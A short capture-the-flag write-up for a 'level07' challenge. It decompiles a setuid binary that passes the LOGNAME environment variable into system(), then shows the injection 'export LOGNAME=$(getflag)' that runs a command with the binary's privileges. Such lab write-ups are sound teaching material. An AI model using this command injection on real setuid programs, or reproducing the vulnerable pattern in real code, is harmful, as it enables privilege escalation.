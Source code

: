 # Level07 Writeup

User level07 has a setuid (flag07) ELF Binary `level07` in the root of his home directory, using ghidra we can decompile `level07` and take a look at the c source code.

`level07`
``` c
int main(int argc,char **argv,char **envp) {
	char *env;
	int retval;
	char *buffer;
	gid_t gid;
	uid_t uid;
	char *command;
	__gid_t pgid;
	__uid_t puid;
  
 	pgid = getegid();
	puid = geteuid();
	setresgid(pgid,pgid,pgid);
	setresuid(puid,puid,puid);
	command = (char *)0x0;
	env = getenv("LOGNAME");
	asprintf(&command,"/bin/echo %s ",env);
	retval = system(command);
	return retval;
}
```

The binary `level07` uses an environment variable to construct a command. Checking the environment variables with `env` shows that indeed `LOGNAME` is set to `level07`. Setting the `env` like this `export LOGNAME=\$\(getflag\)` results in command subsitution when executing the `level07`, allowing us to get the flag.